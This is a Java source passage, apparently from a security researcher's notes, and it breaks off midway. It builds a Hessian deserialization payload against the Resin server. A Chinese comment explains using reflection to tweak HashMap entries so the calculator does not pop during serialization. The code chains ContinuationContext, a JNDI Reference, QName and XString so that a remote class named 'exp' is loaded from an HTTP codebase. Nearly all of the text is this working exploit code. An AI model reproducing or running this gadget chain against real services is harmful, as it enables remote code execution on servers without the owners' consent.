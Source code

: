 如果想序列化的时候不弹计算器，那就用反射去修改键值对

```
package Unser.Hessians.Resin;

import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import javax.naming.directory.DirContext;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Payload3 {
    public static void main(String[] args) throws Exception{

        String codebase = "http://127.0.0.1:8081/";
        String clazz = "exp";

        Class ctx = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor constructor = ctx.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);


        Reference reference = new Reference("aaa",clazz,codebase);
//        setFieldValue(reference,"classFactory",clazz);
//        setFieldValue(reference,"classFactoryLocation",codebase);

        CannotProceedException cpe = new CannotProceedException();
        setFieldValue(cpe,"resolvedObj",reference);
//        cpe.setResolvedObj(reference);

        Context continuationContext = (Context) constructor.newInstance(cpe,new Hashtable());


        QName qName = new QName(continuationContext,"aa","bb");
//        ArrayList list = new ArrayList();
//        list.add("DawnT0wn");
//        list.add("hello");
//        setFieldValue(qName,"_items",list);
        XString xString = new XString("");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",qName);
        map1.put("bB",xString);
        map2.put("aa",xString);
        map2.put("bB",qName);
        HashMap map = new HashMap();
        map.put("a","");
        map.put(map2,"");
        Field field = map.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(map);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
```